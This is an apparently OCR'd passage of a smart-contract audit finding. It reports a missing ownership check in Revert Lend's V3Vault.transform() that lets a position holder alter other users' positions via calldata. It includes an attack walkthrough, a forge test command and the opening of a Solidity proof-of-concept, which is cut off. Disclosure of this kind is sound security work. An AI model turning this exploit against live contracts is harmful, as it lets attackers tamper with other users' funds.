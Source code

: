 ```
        if (owner != address(this)) {
            revert Unauthorized();
        }

        ....

        return tokenId;
    }
```

The user passes an approved transformer address and the calldata to execute on it. The problem here is that the function only validates the ownership of the `uint256 tokenId` input parameter, however it never checks if the `tokenId` encoded inside `bytes calldata data` parameter belongs to `msg.sender`.

This allows any vault position holder to **call an allowed transformer with arbitrary params encoded as calldata and change any position delegated to that transformer**.

This will impact all current and future transformers that manage Vault positions.

To prove the exploit I'm providing a coded POC using the [`AutoCompound` tranformer](https://github.com/code-423n4/2024-03-revert-lend/blob/435b054f9ad2404173f36f0f74a5096c894b12b7/src/transformers/AutoCompound.sol#L16).

## Proof of Concept
A short explanation of the POC:

* `Alice` is an account outside the vault that approves her position `ALICE_NFT` to be auto-compounded by Revert controlled operators(bots)
* `Bob` decides to act maliciously and transform `Alice` position
* `Bob` opens a position in the vault with his `BOB_NFT` so that he can call `transform()`
* `Bob` calls `V3Vault.transform()` with `BOB_NFT` as `tokenId` param to pass validation but encodes `ALICE_NFT` inside data
* `Bob` successfully transforms `Alice` position with his params

You can add the following test to `V3Vault.t.sol` and run `forge test --contracts /test/V3Vault.t.sol --mt testTransformExploit -vvvv`

```solidity
function testTransformExploit() external {
        // Alice
        address ALICE_ACCOUNT = TEST_NFT_ACCOUNT;
        uint256 ALICE_NFT = TEST_NFT;

        // Malicious user
        address EXPLOITER_ACCOUNT = TEST_NFT_ACCOUNT_2;
        uint256 EXPLOITER_NFT = TEST_NFT_2;

        // Set up an auto-compound transformer
        AutoCompound autoCompound = new AutoCompound(
            NPM,
            WHALE_ACCOUNT,
            WHALE_ACCOUNT,
            60,
            100
        );
        vault.setTransformer(address(autoCompound), true);
        autoCompound.setVault(address(vault), true);

        // Set fee to 2%
        uint256 Q64 = 2 ** 64;
        autoCompound.setReward(uint64(Q64 / 50));

        // Alice decides to delegate her position to
        // Revert bots (outside of vault) to be auto-compounded
        vm.prank(ALICE_ACCOUNT);
```